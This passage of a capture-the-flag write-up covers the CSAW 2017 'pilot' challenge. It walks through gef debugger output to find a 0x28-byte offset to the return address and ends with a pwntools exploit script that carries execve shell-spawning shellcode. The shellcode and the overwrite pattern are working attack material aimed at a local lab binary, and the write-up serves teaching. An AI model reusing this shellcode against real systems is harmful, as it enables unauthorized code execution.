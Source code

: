 ```
0x00007fffffffdeb0│+0x0030: 0x0000000000000000
0x00007fffffffdeb8│+0x0038: 0x00007fffffffdf88  →  0x00007fffffffe2cc  →  "/Hackery/pod/modules/bof_shellcode/csaw17_pilot/pi[...]"
─────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400ad8                  mov    rsi, rax
     0x400adb                  mov    edi, 0x0
     0x400ae0                  call   0x400820 <read@plt>
 →   0x400ae5                  cmp    rax, 0x4
     0x400ae9                  setle  al
     0x400aec                  test   al, al
     0x400aee                  je     0x400b2f
     0x400af0                  mov    esi, 0x400d90
     0x400af5                  mov    edi, 0x6020a0
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "pilot", stopped, reason: BREAKPOINT
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x400ae5 → cmp rax, 0x4
[#1] 0x7ffff767cb97 → __libc_start_main(main=0x4009a6, argc=0x1, argv=0x7fffffffdf88, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7fffffffdf78)
[#2] 0x4008d9 → hlt 
────────────────────────────────────────────────────────────────────────────────

Breakpoint 1, 0x0000000000400ae5 in ?? ()
gef➤  search-pattern 15935728
[+] Searching '15935728' in memory
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rwx
  0x7fffffffde80 - 0x7fffffffde88  →   "15935728[...]" 
gef➤  i f
Stack level 0, frame at 0x7fffffffdeb0:
 rip = 0x400ae5; saved rip = 0x7ffff767cb97
 called by frame at 0x7fffffffdf70
 Arglist at 0x7fffffffde78, args: 
 Locals at 0x7fffffffde78, Previous frame's sp is 0x7fffffffdeb0
 Saved registers:
  rbp at 0x7fffffffdea0, rip at 0x7fffffffdea8
```

So we can see that the offset between the start of our input and the return address is `0x7fffffffdea8 - 0x7fffffffde80 = 0x28` bytes. So we have a way to overwrite the return address, a place to store our shellcode, and we know where it is in memory. With this we can write our exploit:

```
from pwn import *

target = process('./pilot')

print(target.recvuntil(b"[*]Location:"))

leak = target.recvline()

inputAdr = int(leak.strip(b"\n"), 16)

payload = b""
# This shellcode is originally from: https://teamrocketist.github.io/2017/09/18/Pwn-CSAW-Pilot/
# However it looks like that site is down now
# This shellcode will pop a shell when we run it
payload += b"\x31\xf6\x48\xbf\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdf\xf7\xe6\x04\x3b\x57\x54\x5f\x0f\x05" 

# Padding to the return address
payload += b"0"*(0x28 - len(payload))

# Overwrite the return address with the address of the start of our input
payload += p64(inputAdr)
```